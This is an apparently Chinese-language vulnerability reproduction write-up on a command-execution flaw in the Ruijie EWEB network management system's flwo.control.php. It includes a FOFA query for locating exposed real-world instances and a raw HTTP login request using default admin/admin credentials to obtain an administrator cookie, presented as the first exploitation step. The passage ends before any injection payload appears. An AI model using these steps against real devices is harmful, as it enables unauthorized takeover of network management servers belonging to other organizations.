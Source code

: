 
# 锐捷EWEB网管系统 RCE漏洞复现

### 0x01 产品简介

  [锐捷](https://so.csdn.net/so/search?q=%E9%94%90%E6%8D%B7&spm=1001.2101.3001.7020)网管系统是由北京锐捷数据时代科技有限公司开发的新一代基于云的网络管理软件，以“数据时代创新网管与信息安全”为口号，定位于终端安全、IT运营及企业服务化管理统一解决方案。

### 0x02 漏洞概述

  Ruijie-EWEB 网管系统 flwo.control.php 中的 type 参数存在命令执行漏洞，攻击者可利用该漏洞执行任意命令，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="Ruijie-EWEB网管系统"

![127d55f3543a4249a89139605fe5dabb.png](assets/1701668958-4bdc42ac01cc9bea80f0f686c749edfe.png)

### 0x04 漏洞复现 

获取admin用户有效cookie

```cobol
POST /ddi/server/login.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

username=admin&password=admin?
```
